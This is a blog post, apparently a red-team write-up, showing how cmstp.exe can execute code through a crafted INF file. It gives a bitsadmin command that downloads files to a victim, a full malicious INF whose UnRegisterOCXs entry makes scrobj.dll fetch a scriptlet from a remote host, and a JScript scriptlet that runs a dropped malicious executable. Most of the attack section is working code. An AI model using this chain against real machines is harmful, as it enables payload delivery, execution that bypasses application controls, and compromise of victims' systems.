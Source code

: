 ![alt text](https://liberty-shell.com/sec/assets/img/lol1.gif)

Check out MITRE’s and LOLBAS projects sources to read more on this technique, but I’ll go into a little more detail to clear things up.

First, the INF file is dropped on the victim, which will be downloaded using **bitsadmin**. I recently made a [quick post](https://liberty-shell.com/sec/2019/07/12/bitsadmin/) on how to attack and detect against BITS if you wish to learn more about this service. A simple download will look something like this:

```text
bitsadmin.exe /transfer "randomName" /download http://IP/file.exe C:\Path\file.exe
```

Before we download the .inf, let’s take a quick look at it:

```text
[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall_SingleUser]
UnRegisterOCXs=UnRegisterOCXSection

[UnRegisterOCXSection]
%11%\scrobj.dll,NI,http://172.20.0.2/lb/w.sct

[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="Corp"
ShortSvcName="Corp"
```

Simply put, when cmstp.exe is ran with this .inf as a parameter, the scrobj.dll will remotely execute w.sct. Great, so what’s in w.sct?

This can be whatever scriptlet you want, but in this case it’s simply executing a malicious exe \(_shelter.exe_\) we’ll be dropping with BITS as well. Feel free to augment your scritplets to be more creative.

```text
<?XML version="1.0"?>
<scriptlet>
<registration 
  progid="PoC"
  classid="{F0001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
      <![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("C:\\Users\\quaid\\AppData\\Local\\shelter.exe");

       ]]>
</script>
</registration>
</scriptlet>
```
